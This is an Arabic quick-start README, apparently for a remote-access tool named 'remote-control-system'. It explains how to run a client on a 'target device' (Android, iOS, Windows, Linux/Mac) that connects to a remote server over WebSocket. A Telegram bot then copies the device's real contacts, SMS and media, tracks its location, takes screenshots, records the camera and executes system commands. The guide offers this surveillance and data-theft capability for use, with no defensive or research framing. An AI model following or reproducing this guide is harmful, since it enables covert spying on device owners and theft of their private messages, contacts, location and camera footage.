 # 🎯 دليل سريع للأجهزة الحقيقية

## ⚡ **للحصول على أوامر تنفذ فعلياً:**

### **🔧 الطريقة السريعة:**

1. **تشغيل العميل على الجهاز المستهدف:**
```bash
cd remote-control-system/client
./start_client.sh
```

2. **إدخال معلومات الاتصال:**
   - عنوان IP الخادم (مثال: 192.168.1.100)
   - معرف الجهاز (مثال: MY-PHONE-001)

3. **استخدام الأوامر في البوت:**
   - `/devices` - لرؤية الأجهزة المتصلة
   - `/contacts` - لنسخ جهات الاتصال الحقيقية
   - `/sms` - لنسخ الرسائل الحقيقية
   - `/media` - لنسخ الوسائط الحقيقية

### **📱 للهواتف الذكية:**

#### **Android:**
1. تثبيت Termux من Google Play
2. فتح Termux وتشغيل:
```bash
pkg install python
cd /storage/emulated/0/Download
git clone YOUR_REPO_URL
cd remote-control-system/client
./start_client.sh
```

#### **iOS:**
1. تثبيت iSH من App Store
2. فتح iSH وتشغيل:
```bash
apk add python3
cd /root
git clone YOUR_REPO_URL
cd remote-control-system/client
./start_client.sh
```

### **🖥️ لأجهزة الحاسوب:**

#### **Windows:**
```cmd
cd remote-control-system\client
python client.py ws://SERVER_IP:8080 DEVICE-ID
```

#### **Linux/Mac:**
```bash
cd remote-control-system/client
python3 client.py ws://SERVER_IP:8080 DEVICE-ID
```

## 🎯 **الأوامر المتاحة للأجهزة الحقيقية:**

### **📞 أوامر البيانات:**
- `backup_contacts` - نسخ جهات الاتصال الحقيقية
- `backup_sms` - نسخ الرسائل النصية الحقيقية
- `backup_media` - نسخ الوسائط الحقيقية

### **📍 أوامر الموقع:**
- `get_location` - الحصول على الموقع الحقيقي

### **📸 أوامر الكاميرا:**
- `take_screenshot` - التقاط لقطة شاشة حقيقية
- `record_camera` - تسجيل الكاميرا الحقيقي

### **⚙️ أوامر النظام:**
- `system_info` - معلومات النظام الحقيقية
- `execute_command` - تنفيذ أوامر نظام حقيقية

## 🔄 **الفرق بين الأجهزة الوهمية والحقيقية:**

| الميزة | الأجهزة الوهمية | الأجهزة الحقيقية |
|--------|-----------------|-------------------|
| البيانات | وهمية للاختبار | حقيقية من الجهاز |
| التنفيذ | محاكاة | تنفيذ فعلي |
| الاتصال | لا يوجد | اتصال WebSocket |
| النتائج | ثابتة | ديناميكية |

## ⚠️ **ملاحظات مهمة:**

1. **🔒 الأمان:** تأكد من أن الجهاز المستهدف آمن
2. **📡 الشبكة:** تأكد من أن الخادم متاح من الجهاز
3. **🔧 الصلاحيات:** بعض الأوامر تحتاج صلاحيات إدارية
4. **⚡ البطارية:** العميل يستهلك البطارية عند التشغيل

## 🆘 **حل المشاكل:**

### **مشكلة الاتصال:**
```bash
# فحص الاتصال بالخادم
curl http://SERVER_IP:10001/status
```

### **مشكلة العميل:**
```bash
# فحص السجل
tail -f client.log
```

### **مشكلة البوت:**
```bash
# فحص سجل البوت
tail -f logs/telegram-bot.log
```

## 📞 **الدعم:**

إذا واجهت أي مشاكل:
1. تحقق من ملفات السجل
2. تأكد من إعدادات الشبكة
3. تحقق من صلاحيات النظام
4. راجع دليل الإعداد الكامل في `SETUP_REAL_DEVICES.md`
